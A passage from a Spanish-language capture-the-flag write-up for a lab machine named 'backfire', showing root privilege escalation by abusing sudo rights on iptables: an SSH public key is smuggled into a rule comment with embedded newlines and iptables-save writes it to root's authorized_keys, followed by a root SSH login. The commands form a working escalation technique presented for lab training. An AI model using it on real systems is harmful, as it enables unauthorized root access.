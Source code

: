 Buscando otras maneras de aprovecharnos de estos privilegios de `sudoers`, pensamos en subir nuestra clave pública SSH al archivo `authorized_keys` del usuario `root.` En un principio no deberíamos tener problemas al ejecutar el `iptables && iptables-save` con permisos de `sudo`.

Copiaremos nuestra clave SSH pública que obtuvimos en los pasos anteriores.

```bash
❯ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```

Volveremos a realizar el PrivEsc aprovechándonos de estos permisos de `sudoers`. En este caso, crearemos un nuevo comentario que contenga nuestra clave SSH pública. Revisaremos que nos aparece el comentario en las reglas de `iptables`, y procederemos a sobreescribir el archivo mencionado.

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

<figure><img src="../../../../.gitbook/assets/imagen (211).png" alt=""><figcaption></figcaption></figure>

Al intentar acceder mediante SSH con el usuario `root`, comprobamos que no se solicita credenciales. Al subir nuestra clave pública SSH al archivo `/root/.ssh/authorized_keys`, logramos conectarnos sin necesidad de proporcionar una contraseña, ya que la clave pública almacenada en ese archivo se comunica directamente con nuestra clave privada.

Logramos acceso a la máquina como usuario `root` y verificamos la flag de **root.txt**.

```bash
❯ ssh root@10.10.11.49
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~$ cat root.txt 
16ac29c65cc*********************
```
